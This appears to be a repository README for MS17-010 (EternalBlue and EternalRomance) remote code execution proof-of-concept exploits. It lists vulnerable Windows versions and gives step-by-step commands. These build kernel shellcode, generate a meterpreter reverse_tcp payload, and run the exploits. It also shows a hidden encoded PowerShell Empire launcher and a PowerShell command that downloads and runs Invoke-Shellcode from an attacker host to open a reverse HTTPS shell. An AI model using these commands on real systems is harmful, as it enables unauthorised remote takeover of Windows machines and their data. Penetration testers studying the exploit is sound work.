 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010) and [vivami](https://github.com/vivami/MS17-010).

My goal is to add support for things like nthashes and more payload options.

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance, so don't try this on critical systems. 

### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows 7 SP1 x86
- Windows Server 2008 R2 SP1 x64
- Windows Server 2008 SP1 x86

**eternalblue_exploit8:**

- Windows Server 2012 R2 x64
- Windows 8.1 x64

### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance (and Eternalsynergy). A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. 

### Compatible targets

- Windows 2016 x64
- Windows 10 x64
- Windows 10 x86
- Windows 2012 R2 x64
- Windows 2008 R2 SP1 x64
- Windows 2008 SP1 x64
- Windows 2008 SP1 x86
- Windows 8.1 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 7 SP1 x64
- Windows 2003 SP2 x86
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows XP SP3 x86
- Windows 2000 SP4 x86

### Usage

Example for finding a named pipe (not required anymore, exploit now automatically finds a named pipe on the target):

`python find_named_pipe.py 192.168.178.2 testuser Password123`

Usage of `eternalromance.py`: 

`python eternalromance.py <target_ip_address> <username> <password> <command_to_execute>`

Example for spawning an Empire agent:

`python eternalromance.py 192.168.178.2 testuser Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:

`python eternalromance.py 192.168.178.2 testuser Password123 "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.3/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.3 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)
